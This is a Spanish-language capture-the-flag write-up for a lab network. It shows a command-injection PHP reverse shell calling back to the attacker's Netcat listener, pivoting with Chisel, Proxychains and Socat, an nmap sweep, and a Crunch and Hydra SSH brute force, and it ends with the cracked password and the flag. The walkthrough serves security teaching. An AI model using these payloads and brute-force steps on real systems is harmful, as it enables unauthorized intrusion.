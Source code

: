 # CTF-4
*Capture the flag* donde se trabaja el *pivoting* entre máquinas de la misma red, *reverse shell*, escucha de puertos, montaje de un servidor con *Python*, *Crunch*, *Hydra*.
<div>
  <img src="https://img.shields.io/badge/-Kali-5e8ca8?style=for-the-badge&logo=kalilinux&logoColor=white" />
  <img src="https://img.shields.io/badge/-PHP-777BB4?style=for-the-badge&logo=php&logoColor=white" />
  <img src="https://img.shields.io/badge/-Netcat-F5455C?style=for-the-badge&logo=netcat&logoColor=white" />
  <img src="https://img.shields.io/badge/-python-3776AB?style=for-the-badge&logo=python&logoColor=white" />
  <img src="https://img.shields.io/badge/-chisel-CD1414?style=for-the-badge&logo=chisel&logoColor=white" />
  <img src="https://img.shields.io/badge/-Proxychains-3EBBDF?style=for-the-badge&logo=proxychains&logoColor=white" />
  <img src="https://img.shields.io/badge/-nmap-6933FF?style=for-the-badge&logo=nmap&logoColor=white" />
  <img src="https://img.shields.io/badge/-Crunch-0080FF?style=for-the-badge&logo=crunch&logoColor=white" />
  <img src="https://img.shields.io/badge/-Hydra-77B6A8?style=for-the-badge&logo=hydra&logoColor=white" />
  <img src="https://img.shields.io/badge/-Socat-777BB4?style=for-the-badge&logo=socat&logoColor=white" />
  <img src="https://img.shields.io/badge/-Docker-2496ED?style=for-the-badge&logo=docker&logoColor=white" />
</div>

## Objetivo

Explicar la realización del siguiente _Capture the flag_ dentro del mundo educativo. Se pretende conseguir un archivo (_flags_), dentro del entorno del usuario básico. Para ello, se deberá pivotar desde la máquina resuelta en el [CTF-3](https://github.com/Cibersegurata39/CTF-3) a la máquina de este nuevo reto y una vez dentro pasar al usuario básico.

## Que hemos aprendido?

- Realizar un *pivoting* entre dos máquinas de la misma red.
- Realizar una *reverse shell* con código *php*.
- Poner puertos en escucha.
- Montar un sevidor fácilmente con *Python*.
- Encontrar una máquina y enumerar sus puertos.
- Montar un diccionario a partir de una secuencia dada de caracteres.
- *Crackear* una contraseña.

## Herramientas utilizadas

- *Kali Linux*.
- *Pivoting*: *Python3*, *Chisel*, *Proxychains*, *Socat*.
- Enumeración: *Nmap*.
- Penetración: *Netcat*, *Crunch*, *Hydra*. 

## Steps

### Vulnerabilidades explotadas

Partiendo del primer formulario encontrado en el CTF-3, ejecuto una *reverse shell* con código **php**, indicando la dirección IP y el puerto de la máquina local que estará escuchando.

<code>;ls;php -r '$sock=fsockopen("10.0.2.15",1234);exec("/bin/sh -i <&3 >&3 2>&3");';</code>

![image](https://github.com/user-attachments/assets/8ec4b208-1dd2-47d4-8f79-9155f6f56acf)

Para poner en escucha el puerto 1234, utilizo **Netcat**.

<code>nc -lvnp 1234</code>

La conexión ha sido un éxito, esta muestra la IP de la máquina 172.18.0.2.

![image](https://github.com/user-attachments/assets/9eaefd34-4035-4094-af1e-db536c3b4a07)

Para **pivotar** entre máquinas, es necesario descargar el programa **Chisel** en la máquina atacante. Puesto que también se necesita en la máquina que acabamos de penetrar (máquina intermedia, a partir de ahora), se crea un servidor con **Pyhotn3** desde la carpeta donde se encuentra *Chisel* (máquina atacante). Este sevidor es necesario para poder descargar el programa en la máquina intermedia, ya que no dispone de esta herramienta y tampoco se puede descargar directamente desde ella, pues está muy capada.

<code>python3 -m http.server 8080</code>

![image](https://github.com/user-attachments/assets/7f85fb6c-c443-49e6-9a1f-174109bea616)

Puesto que tampoco dispone de los binarios <code>wget</code> o <code>curl</code>, se utiliza un pequeño código *php* para realizar la descarga ('descarga_archivo.php'). En el código se indica la dirección donde se encuentra *Chisel* (máquina atacante), así como donde guardarlo (máquina intermedia). Se guarda en la carpeta '/tmp' pues desde ahí se tienen permisos de ejecución.

Una vez descargado y otorgados los permisos de ejecución, lo lanzo desde la máquina anfitriona, como servidor, y pongo en escucha el puerto 3456 (por ejemplo).

<code>chisel server --reverse -p 3456</code>

![image](https://github.com/user-attachments/assets/a40614a5-773f-4d32-881f-1c3463a639bc)

También lo lanzo en la máquina intermedia, como cliente, indicándole la dirección IP y puerto de la máquina atacante. Además, con ‘R:socks’ indico que me de acceso a todas las IPs/puertos con las que esté conectada la máquina intermedia (conexión con la máquina víctima a la que se pretende conseguir llegar).

<code>./chisel client 10.0.2.15:3456 R:socks</code>

![image](https://github.com/user-attachments/assets/d88edd57-7d66-4665-a25d-8ea6fcf3f85d)

Ahora la máquina anfitriona, por medio del puerto 3456, tiene visibilidad de las posibles conexiones de la máquina intermedia, como podría ser la máquina final.

Para hacer un barrido de IPs con el objetivo de encontrar la última máquina, debo utilizar la herramienta **Proxychains** para utilizar el túnel creado con *Chisel*. Se le indica su dirección IP y puerto (se muestra en la *shell* de la máquina atacante después de realizar la conexión), los cuales se añaden en el archivo de configuración.

<code>sudo nano /etc/proxychains4.conf</code>

Se descomenta la línea que contiene *Dynamic_chain* y se comenta la línea que contiene *static_chain*. Además, al final del archivo se añade ‘socks5 127.0.0.1 1080’ (dirección perteneciente al túnel creado).

![image](https://github.com/user-attachments/assets/1410a5c7-1d8a-4d02-bbee-368ca7cb7b7b)

Para utilizar ahora este túnel se utiliza el comando *Proxychains* y se lanza un *nmap* para hacer el barrido de IPs con la dirección de la máquina intermedia y así encontrar aquellas máquinas que estén en su misma red. Al utilizar *proxychains* sería como lanzar el *nmap* desde la propia máquina intermedia. Se indica que no haga reconocimiento *ping* y la máquina final es encontrada en la dirección 172.18.0.3.

<code>proxychains nmap 172.18.0.0/24 -Pn</code>

![image](https://github.com/user-attachments/assets/f133cc92-395e-4f6e-a3da-e846edcd3917)

Ahora se puede realizar un ataque más centrado en esta máquina y buscar qué puertos tiene abiertos y qué versiones corren en ellos.

<code>proxychains nmap 172.18.0.3 -Pn -sV -p-</code>

![image](https://github.com/user-attachments/assets/241f93d4-06fe-4b98-8ff3-f47a3f37af44)

Se encuentra un servicio *SSH* en el puerto 2222, por lo que se intenta la conexión por medio de *proxychains*. Aparece el inconveniente de que ninguna de las contraseñas encontradas en la base de datos sirven para tener acceso. Igual que en el anterior CTF (CTF-3) se encontró, por medio de *SQLMap*, la tabla con la bandera correspondiente, también se encontró una tabla con diferentes usuarios y contraseñas.

![image](https://github.com/user-attachments/assets/1e9d0fc7-495d-4009-a32f-7a9210c3451b)

En tal caso, se va a probar diferentes combinaciones de los caracteres de cada contraseña para ver si alguna es la correcta, empezando con el usuario Pablo pues es el más probable de éxito. Para conseguir la permuta de caracteres se hace uso de la herramienta **Crunch**, la cual creará un diccionario con todas las posibilidades. Indico que las *passwords* generadas tengan una longitud (mínima y máxima) de 8, la contraseña original a partir de la cual se formarán las demás y el nombre del dicionario que se creará.

<code>crunch 8 8 "tefeme\!." -o pwds.txt</code>

![image](https://github.com/user-attachments/assets/bb9dd4c4-0072-41ec-b938-97572b8b82ad)

Una vez creado el diccionario 'pwds.txt', se utiliza este para encontrar la contrasña, por medio de fuerza bruta. Esto es posible gracias a la ayuda de la herramienta **Hydra**. En el comando se indica la IP y el servicio a *crackear*, el usuario (en este caso, como se va a probar con Pablo, se pasa '-l' en minúscula), la contraseña (puesto que es la que se quiere encontrar, se indica con '-P' en mayúscula) y finalmnente se informa del puerto donde se conectará. Por aclarar, si se conoce el usuario o la contraseña, estos se indican con la letra en minúscula. Por contra, si no se conocen se indica con mayúscula.

<code>proxychains hydra 172.18.0.3 ssh -l pablo -P pwds.txt -s 2222</code>

![image](https://github.com/user-attachments/assets/b8957d3e-b8fc-479f-b1d6-8295caf4f3e2)

*Hydra* ha encontrado la contraseña correcta: 'tefeme.!'. Ya sólo queda conectarse vía SSH con esta password y buscar la *flag*.

![image](https://github.com/user-attachments/assets/5881e81f-6cee-4265-be5b-4de96ea09c31)

**Flag: 4d8c72671245d9d1b8e03a826db9d5ecead28c8c**

### Alternativa Socat

Otra herramienta que permite el *pivoting* y se puede utilizar como alternativa a *Chisel* es **Socat**, la cual si se encuentra en la máquina intermedia. Desde esta se indica el puerto que se pone en escucha y la IP-puerto de la máquina final a la que se pretende conectar.

<code>socat tcp-l:222,fork tcp:172.18.0.3:2222</code>

![image](https://github.com/user-attachments/assets/c658cc35-ef0a-4189-8ffc-eb6c821eb6b0)

De esta manera, desde la máquina atacante se puede conectar váa *ssh* a la máquina intermedia por el puerto que está en escucha. Y este, a su vez, conectar con el puerto de la máquina final indicado. 

<code>ssh pablo@172.18.0.2 -p 222</code>

![image](https://github.com/user-attachments/assets/26da0e19-0014-488e-b7c5-af1c9189a428)

Una vez dentro ya se puede buscar la bandera.
